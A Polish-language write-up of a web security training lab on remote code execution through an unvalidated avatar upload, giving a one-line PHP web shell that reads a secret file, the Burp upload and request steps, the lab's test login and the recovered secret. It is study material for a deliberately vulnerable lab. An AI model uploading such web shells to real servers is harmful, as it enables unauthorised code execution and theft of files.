

# Lab 01 — Remote code execution via web shell upload

| | |
|---|---|
| **Poziom** | Apprentice |
| **Status** | ✅ rozwiązany |
| **Data** | 2026-10-16 |
| **Narzędzia** | Burp (Proxy + Repeater), plik `exploits/shell.php` |

> 📖 **Teoria tej klasy podatności: [README tematu](README.md).** Tu tylko ten konkretny lab.

---

## Cel

Upload avatara **nie waliduje niczego**. Wgrać web shell w PHP, wykonać go i wyciągnąć zawartość `/home/carlos/secret`.

---

## Trik tego labu

Najprostszy wariant (*„doesn't perform any validation"*) — nic nie trzeba obchodzić. Wgrywasz plik `exploits/shell.php`:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Serwer przyjmuje `.php` bez marudzenia i serwuje go pod `/files/avatars/shell.php`. Żądanie o ten URL uruchamia interpreter → w odpowiedzi sekret.

```
GET /files/avatars/shell.php → 200, Content-Type text/html, Content-Length 32
body = IxbBrH8VPrsF7sRiHfc9uboUyNBxizXe
```

**⭐ Dowód wykonania:** `Content-Length: 32` = długość **sekretu**, nie kodu PHP (~44 znaki). Gdyby serwer oddał plik jako statyk, zobaczyłbyś `<?php ... ?>`. Zobaczyłeś wynik → interpreter zadziałał.

---

## Przebieg



1. Login `wiener:peter`, Burp Proxy on.
2. **My account** → upload → `shell.php`.
3. Znajdź URL avatara (`` / Proxy history): `/files/avatars/shell.php`.
4. Repeater: `GET /files/avatars/shell.php` → body = sekret.
5. Submit → **Solved**.

---

## 💥 Moje potknięcia

- **Ścieżka absolutna vs względna** — `/home/carlos/secret` (ze slashem = od korzenia FS) zadziała zawsze; bez wiodącego `/` PHP szukałby względem katalogu skryptu (`/files/avatars/...`) → pustka. Realnie potknąłem się na braku `/`.
- **Katalog avatara trzeba odkryć, nie zgadnąć** — podejrzyj faktyczny `src`/Proxy history.
- Kopiuj cały sekret dokładnie (bez spacji/entera na końcu).

---

## Czego ten lab dokłada

Goły wariant (zero walidacji) — utrwala **mechanizm**: upload + wykonywalność = RCE, i że o wykonaniu decyduje konfiguracja serwera, nie plik. Baza pod [[02-content-type-restriction-bypass]], gdzie dochodzi pierwsza walidacja do obejścia.
